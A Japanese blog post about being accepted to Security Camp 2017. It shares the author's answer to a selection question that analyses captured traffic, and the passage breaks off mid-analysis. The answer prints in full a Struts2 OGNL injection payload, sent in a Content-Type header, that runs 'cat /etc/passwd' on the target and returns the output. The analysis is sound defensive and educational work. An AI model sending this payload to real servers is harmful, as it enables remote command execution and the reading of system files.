 ```yaml
---
layout: post
title: セキュリティキャンプ全国大会 2017 に参加します
categories: [seccamp]
date: 2017-06-17 05:52:00 +0900
---
```


<blockquote class="twitter-tweet" data-lang="ja"><p lang="ja" dir="ltr">セキュキャン受かりました! やったー!</p>&mdash; st98 (@st98_) <a href="https://twitter.com/st98_/status/875215541392220163">2017年6月15日</a></blockquote>
<script async src="//platform.twitter.com/widgets.js" charset="utf-8"></script>

[セキュリティキャンプ全国大会 2017](https://www.ipa.go.jp/jinzai/camp/2017/zenkoku2017.html) に選択コースで参加することになりました。

2013 年に[セキュリティキャンプ](http://www.security-camp.org/)のことを知って以来 4 度目 (?) の応募で、今回やっと選考を通過することができ、とても嬉しい気持ちです。よろしくお願いします。

以下、応募用紙でどのようなことを書いたか晒してみます。とりあえず選択問題だけ。

## 選択問題

### 選-A-1.

> 添付したファイルに記録された通信を検知しました。この通信が意図するものは何か、攻撃であると判断する場合は何の脆弱性を狙っているか。また、通信フローに欠けている箇所があるがどのような内容が想定されるか、考えられるだけ全て回答してください。なお、通信内容を検証した結果があれば評価に加えます。

添付された pcap ファイルを Wireshark で開いて通信を見てみると、192.168.74.1 から 192.168.74.130:8080 に向けて、以下のような不審な HTTP リクエストが送られているのが確認できました。

```
GET /struts2-rest-showcase/orders.xhtml HTTP/1.1
Host: 192.168.74.130:8080
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:51.0) Gecko/20100101 Firefox/51.0
Content-Type: Content-Type:%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='cat /etc/passwd').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

この HTTP リクエストについて、以下の 2 点から不審であると考えました。

- `Content-Type:` が 2 回続けて書かれていること。
- この通信で使われているプロトコルである HTTP/1.1 の仕様 (RFC 7231) で Content-Type ヘッダの文法で定義されているが、この通信はそれに従っていないこと。

この HTTP リクエストが何を意図したものか考えます。
